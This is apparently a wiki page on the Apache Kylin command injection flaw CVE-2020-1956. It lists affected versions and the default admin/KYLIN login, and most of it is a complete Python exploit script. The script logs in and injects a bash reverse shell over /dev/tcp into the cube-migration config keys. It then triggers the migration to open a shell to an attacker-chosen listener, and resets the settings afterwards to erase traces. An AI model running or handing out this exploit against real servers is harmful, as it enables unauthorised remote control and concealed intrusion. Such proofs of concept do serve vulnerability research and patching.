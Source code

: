 <languages   />

Затронутая версия
-----------------

    Apache Kylin 2.3.0 ~ 2.3.2

    Apache Kylin 2.4.0 ~ 2.4.1

    Apache Kylin 2.5.0 ~ 2.5.2

    Apache Kylin 2.6.0 ~ 2.6.5

    Apache Kylin 3.0.0-alpha, Apache Kylin 3.0.0-alpha2, Apache Kylin 3.0.0-beta, Apache Kylin 3.0.0, Kylin 3.0.1

После открытия войдите в систему с учетной записью и паролем по умолчанию, и начальный интерфейс будет успешным.

    admin/KYLIN

POC
---

    #!/usr/bin/python3
    #-*- coding:utf-8 -*-
    # author : PeiQi
    # from   : http://wiki.peiqi.tech

    import requests
    import base64
    import sys


    def title():
        print('+------------------------------------------')
        print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
        print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
        print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
        print('+  \033[34mVersion: Apache Kylin <= 3.0.1                                    \033[0m')
        print('+  \033[36m使用格式: python3 CVE-2020-1956                                    \033[0m')
        print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx:7070                            \033[0m')
        print('+  \033[36mLogin  >>> admin:KYLIN(格式为User:Pass)                            \033[0m')
        print('+------------------------------------------')

    def POC_1(target_url):
        login_url = target_url + "/kylin/api/user/authentication"
        user_pass = str(input("\033[35mPlease input User and Pass\nLogin >>> \033[0m"))

        Authorization = "Basic " + str((base64.b64encode(user_pass.encode('utf-8'))),'utf-8')
        headers = {
            "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
            "Authorization": Authorization,
            "Cookie": "project=null"
        }
        try:
            response = requests.post(url=login_url, headers=headers, timeout=20)
            if "password" not in response.text:
                print("\033[31m[x] 账号密码出现错误 \033[0m")
                sys.exit(0)
            else:
                print("\033[32m[o] 成功登录，获得JSESSIONID：" + response.cookies["JSESSIONID"] + "\033[0m")
                return response.cookies["JSESSIONID"],Authorization
        except:
            print("\033[31m[x] 漏洞利用失败\033[0m")
            sys.exit(0)

    def POC_2(target_url, cookie, IP, PORT, Authorization):
        config_url = target_url + "/kylin/api/admin/config"

        key = ["kylin.tool.auto-migrate-cube.enabled","kylin.tool.auto-migrate-cube.src-config","kylin.tool.auto-migrate-cube.dest-config"]
        value = ["true","echo;bash -i >& /dev/tcp/{}/{} 0>&1;echo".format(IP, PORT), "shell"]

        headers = {
            "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
            "Authorization": Authorization,
            "Accept": "application/json, text/plain, */*",
            "Content-Type": "application/json;charset=UTF-8",
            "Pragma": "no-cache",
            "Cookie": "project=null;JSESSIONID="+cookie
        }
        for i in range(0,3):
            data = """{"key":"%s","value":"%s"}""" % (key[i], value[i])
            try:
                response = requests.put(url=config_url, headers=headers, data=data, timeout=20)
                if response.status_code == 200:
                    print("\033[32m[o] 成功将" + key[i] +"设置为" + value[i] +"\033[0m")
                else:
                    print("\033[31m[x] 设置" + key[i] +"为" + value[i] +"失败\033[0m")
                    sys.exit(0)
            except:
                print("\033[31m[x] 漏洞利用失败 \033[0m")
                sys.exit(0)

    def POC_3(target_url, cookie):
        print("\033[35m[o] 正在反弹shell......\033[0m")
        vuln_url = target_url + "/kylin/api/cubes/kylin_sales_cube/learn_kylin/migrate"
        headers = {
            "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
            "Cookie": "project=null;JSESSIONID=" + cookie
        }
        try:
            response = requests.post(url=vuln_url, headers=headers)
            POC_4(target_url, cookie)
        except:
            print("\033[31m[x] 漏洞利用失败 \033[0m")
            sys.exit(0)

    def POC_4(target_url, cookie):
        config_url = target_url + "/kylin/api/admin/config"

        key = ["kylin.tool.auto-migrate-cube.enabled", "kylin.tool.auto-migrate-cube.src-config",
               "kylin.tool.auto-migrate-cube.dest-config"]
        value = ["flase", "echo;echo;echo", "None"]

        headers = {
            "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
            "Authorization": Authorization,
            "Accept": "application/json, text/plain, */*",
            "Content-Type": "application/json;charset=UTF-8",
            "Pragma": "no-cache",
            "Cookie": "project=null;JSESSIONID=" + cookie
        }

        for i in range(0,3):
            data = """{"key":"%s","value":"%s"}""" % (key[i], value[i])
            try:
                response = requests.put(url=config_url, headers=headers, data=data, timeout=20)
                if response.status_code == 200:
                    print("\033[32m[o] 成功将" + key[i] +"设置为" + value[i] +"\033[0m")
                else:
                    print("\033[31m[x] 设置" + key[i] +"为" + value[i] +"失败\033[0m")
                    sys.exit(0)
            except:
                print("\033[31m[x] 漏洞利用失败 \033[0m")
                sys.exit(0)
        print("\033[35m[o] 成功清理痕迹\033[0m")


    if __name__ == '__main__':
        title()
        target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
        try:
            cookie,Authorization = POC_1(target_url)
        except:
            print("\033[31m[x] 漏洞利用失败 \033[0m")
            sys.exit(0)
        IP = str(input("\033[35m请输入监听IP   >>> \033[0m"))
        PORT = str(input("\033[35m请输入监听PORT >>> \033[0m"))
        POC_2(target_url, cookie, IP, PORT, Authorization)
        POC_3(target_url, cookie)

Ссылка
------

<https://poc.wgpsec.org/PeiQi_Wiki/Web%E6%9C%8D%E5%8A%A1%E5%99%A8%E6%BC%8F%E6%B4%9E/Apache/Apache%20Kylin/Apache%20Kylin%20%E5%91%BD%E4%BB%A4%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E%20CVE-2020-1956.html>